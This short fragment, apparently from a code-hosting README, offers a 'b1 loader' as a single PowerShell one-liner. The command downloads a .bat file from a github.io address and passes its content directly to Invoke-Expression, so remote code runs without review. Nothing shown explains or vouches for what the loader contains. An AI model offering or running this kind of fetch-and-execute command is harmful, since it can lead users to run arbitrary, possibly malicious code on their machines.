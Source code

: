 ///
batch loader
- b1 loader
- ```powershell -Command "Invoke-Expression (Invoke-WebRequest -Uri 'https://luzisdev.github.io/b-1.bat').Content"```
///
